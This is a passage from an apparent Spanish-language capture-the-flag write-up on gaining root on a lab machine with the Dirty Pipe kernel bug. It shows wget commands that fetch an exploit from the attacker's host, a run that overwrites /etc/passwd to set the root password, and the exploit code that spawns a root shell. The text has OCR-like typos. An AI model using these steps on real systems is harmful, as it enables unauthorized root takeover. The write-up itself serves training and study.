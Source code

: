 La otra forma menos común de explotar esto es sobrescribir un binario SUID con un nuevo ELF que obtenga un shell.

Hay otras formas de abusar de la escritura arbitraria que realmente no funcionan en este caso. podría escribirle a /etc/crontab(u otro cronarchivos), 
pero debido a cómo funciona el ataque, el sistema de archivos no notificará cronpara recargarlos. Si los cambios duran mediante un reinicio
u otro cronModificación, podrían funcionar. Otra técnica común con escritura arbitraria es cambiar el sudoersarchivo, lo que permite al usuario actual 
ejecutar comandos como root. Eto no funcionará aquí porque normalmente un usuario que no sea root no puede leer ese archivo. 

intentaremos con 

https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

hay dos exploits de prueba de concepto de Dirty Pipe. El primero hace lo que hacen la mayoría de los exploits de Dirty Pipe: modificar /etc/password. 
gcc y cc no están en Altered, así que descargaré el código fuente y lo compilaré 

- wget https://raw.githubusercontent.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/main/exploit-1.c

- gcc -o exploit-1 exploit-1.c

lanzaremos desde el aacante un servidor simple en python y buscaré el exploit desde Altered: 

    www-data@altered:/dev/shm$ wget 10.10.14.6/exploit-1
    www-data@altered:/dev/shm$ chmod +x exploit-1

obenemos 

            www-data@altered:/dev/shm$ ./exploit-1 
            Backing up /etc/passwd to /tmp/passwd.bak ...
            Setting root password to "piped"...
            --- Welcome to PAM-Wordle! ---

            A five character [a-z] word has been selected.
            You have 6 attempts to guess the word.

            After each guess you will receive a hint which indicates:
            ? - what letters are wrong.
            * - what letters are in the wrong spot.
            [a-z] - what letters are correct.

            --- Attempt 1 of 6 ---
            Word: Invalid guess: unknown word.
            Word:


El exploit cambió la contraseña a "piped" y luego intenta ejecutarse su: 

    char *argv[] = {"/bin/sh", "-c", "(echo piped; cat) | su - -c \""
                    "echo \\\"Restoring /etc/passwd from /tmp/passwd.bak...\\\";"
                    "cp /tmp/passwd.bak /etc/passwd;"
                    "echo \\\"Done! Popping shell... (run commands now)\\\";"
                    "/bin/sh;"
                "\" root"};
            execv("/bin/sh", argv);
